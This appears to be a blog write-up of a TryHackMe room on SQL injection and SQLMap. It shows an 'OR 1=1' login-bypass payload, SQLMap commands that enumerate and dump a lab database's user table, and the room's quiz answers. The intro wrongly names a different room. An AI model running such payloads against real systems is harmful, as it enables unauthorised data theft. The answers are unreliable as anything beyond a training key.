 ```yaml
---
title: 'SQLMap: The Basics | TryHackMe Write-Up'
publishDate: '2025-09-16'
description: Learn about SQL injection and exploit this vulnerability through the SQLMap tool.
tags: [tryhackme, SQLmap, write-up]
heroImage: {src: './image.png', alt: 'TryHackMe'}
language: 'en'
---
```

Here i want to share about my write-up for the room [Shells Overview](https://tryhackme.com/room/shellsoverview), learn about the different types of shells. I wrote this in 2025 and hope it is useful for learning about cybersecurity.

## Task 1: Introduction

### Learning Objectives

- SQL injection vulnerability
- Hunting SQL injection through the SQLMap tool

### Room Prerequisites

While having a solid [SQL Fundamentals](https://tryhackme.com/room/sqlfundamentals) knowledge is helpful, it is not required to complete this room.

Which language builds the interaction between a website and its database?
>Sql

## Task 2: SQL Injection Vulnerability

When input is improperly sanitized, attackers can manipulate the input and write SQL queries to perform SQL injection attacks.

For example, on a login page, an attacker can change the query from `SELECT * FROM users WHERE username = 'John' AND password = '...'` to the following by entering `abc' OR 1=1;-- -` as the password:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

Because `1=1` is always true, it will ignore the random password and successfully execute the query, logging the attacker into John's account. The `-- -` comments out the rest of the original query.

Which boolean operator checks if at least one side of the operator is true for the condition to be true?
>OR

Is 1=1 in an SQL query always true? (YEA/NAY)
>YEA

## Task 3: Automated SQL Injection Tool

SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities in web applications. For beginners, the `--wizard` flag will guide us through each step.

We can test a URL that uses GET parameters with the `-u` flag. After finding a vulnerability, we can use other flags to extract information:

- `--dbs` to extract all the database names.
- `-D [database_name] --tables` to extract tables from a specific database.
- `-D [database_name] -T [table_name] --dump` to extract records from a table.

For POST-based testing, we can use the command `sqlmap -r [intercepted_request.txt]`.

Which flag in the SQLMap tool is used to extract all the databases available?
>--dbs

What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: <http://sqlmaptesting.thm/search/cat=1>)
>sqlmap -u <http://sqlmaptesting.thm/search/cat=1> -D members --tables

## Task 4: Practical Exercise

This task is to test SQL injection vulnerabilities on a login page hosted at `http://MACHINE_IP/ai/login`.

![alt text](image-1.png)

Since the GET parameters are not visible in the URL, we need to use the browser's inspect option and the Network tab to find the complete URL after a test login attempt. Alternatively, we can use the URL: `http://MACHINE_IP/ai/includes/user_login?email=test&password=test`.

![alt text](image-2.png)

We can run this following command `sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' --dbs`

![alt text](image-3.png)

How many databases are available in this web application?
>6

We can run this following command `sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' -D ai --tables`

![alt text](image-4.png)

What is the name of the table available in the "ai" database?
>user

We can run this following command `sqlmap u '<http://MACHINE_IP/ai/includes/user_login?email=test&password=test>' --dbs --tables -D ai -T user --dump

![alt text](image-5.png)

What is the password of the email <test@chatai.com>?
>12345678
